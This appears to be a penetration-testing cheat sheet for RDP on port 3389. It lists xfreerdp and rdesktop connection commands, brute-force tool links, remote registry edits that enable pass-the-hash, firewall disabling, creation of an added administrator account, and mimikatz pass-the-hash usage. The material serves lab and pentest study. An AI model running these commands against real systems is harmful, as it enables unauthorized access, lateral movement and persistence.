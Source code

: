 # 3389 - RDP

You can log onto the machine using **xFreeRDP** / **rdesktop / remmina**.&#x20;

{% code overflow="wrap" fullWidth="true" %}
```bash
# /d:$DOMAIN is optional, +clipboard to redirect the clipboard (allow copy/paste)
xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708
xfreerdp /cert:ignore /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
xfreerdp /cert:ignore /v:IP /u:USERNAME /pth:NTLM_HASH
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS
# /drive:LOCAL_DIRECTORY,SHARE_NAME -- creates a shared drive btw attack and target
# /drive:.,share #to share the current directory in a share called share
# share can be accessed by typing \\tsclient\

rdesktop -u user -p password321 10.10.0.0
sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS
rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS
rdesktop -z -P -x m -u USERNAME -p PASSWORD
```
{% endcode %}

## xfreerdp wrapper

[https://gist.github.com/cipherw0lf/ff4edf5376594072679caa5fff3fd1db](https://gist.github.com/cipherw0lf/ff4edf5376594072679caa5fff3fd1db)

## Bruteforce

[https://github.com/Hypnoze57/RDPChecker/](https://github.com/Hypnoze57/RDPChecker/)

[https://github.com/xFreed0m/RDPassSpray](https://github.com/xFreed0m/RDPassSpray)

## Enable RDP

<pre class="language-sh" data-overflow="wrap" data-full-width="true"><code class="lang-sh"># Before Pass the Hash we need to enable two reg keys that are usually disable for security
cme smb 10.0.2.0/24 -u Administrator -p 'P@$$w0rd!' -M RDP -o action=enable
<strong>
</strong><strong># ALTERNATIVE1
</strong>reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
# Once finished delete the registry key
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
# Alternative 2
crackmapexec smb 172.16.1.1 -u Administrator -H 3542d79d5d17bc9f2914d4d56b5e3050 --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# Another option
netsh advfirewall set allprofiles state off
net user /add Pentester "Pentest123$"
net localgroup Administrators Pentester /add
net localgroup "Remote Desktop Users" Pentester /add
</code></pre>

## ERROR: CredSSP: Initialize failed, errors

[https://github.com/rdesktop/rdesktop/issues/28](https://github.com/rdesktop/rdesktop/issues/28)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#rdp-remote-desktop-protocol](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md#rdp-remote-desktop-protocol)

I've had some success in some situation by connecting to my Kali box with ssh and doing a reverse port forward, then using mstsc on my windows host to access the target rdp. the Microsoft RDP sometimes works a bit better than rdesktop or xfreerdp.

Another option -> turn this off on the Windows host

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Pass-the-Hash

{% code overflow="wrap" fullWidth="true" %}
```sh
# Linux.
xfreerdp /u:'<DOMAIN | WORKGROUP>\<USERNAME>' /pth:<HASH> /v:<HOSTNAME | IP>
# Pass the hash, another port
/pth:HASH /port:40000

# Windows.
# The Remote Desktop Connection (mstsc.exe) client will display the currently logged user information but the network connection will be established using the identity specified to mimikatz's sekurlsa::pth.
sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> /ntlm:<NT_HASH> /run:"mstsc.exe /restrictedadmin"
```
{% endcode %}

## Solve some errors with display %

{% code overflow="wrap" fullWidth="true" %}
```bash
proxychains rdesktop -u $USER -P $PASS $HOST -g 94%
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.xx.xx /u:offsec /p:lab
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:800 /w:1600 /v:[IP] /u:[username] /p:[Password]

# Ok cool can you quickly confirm the RDP port open just grabbing some commands you can try as alternative 
sudo rdesktop -u USER_HERE -p PASS_HERE -g 90% -r disk:local="/home/kali/Desktop/" 192.168.242.149
# or 
xfreerdp /cert-ignore /compression /auto-reconnect /u:USER-HERE /p:PASS-HERE /v:192.168.242.149
# Change the user / pass to the creds given to you for both commands
```
{% endcode %}

## remmina

```bash
https://ubunlog.com/remmina-remote-desktop-client-instalaciones/
# USE REMMINA WITH SUDO IN CASE IT FAILS
remmina

Connect to other hosts/non-default ports > RDP IP:PORT or hostname.com:65000
```

## Proxychains

{% code overflow="wrap" %}
```bash
# write the option without password parameter (to enter the password hiddenly)
└─$ proxychains rdesktop -u alex 10.5.5.20 -p "Ndawc*nRoqkC+haZ" -d sandbox -a 16 -r clipboard:PRIMARYCLIPBOARD
```
{% endcode %}
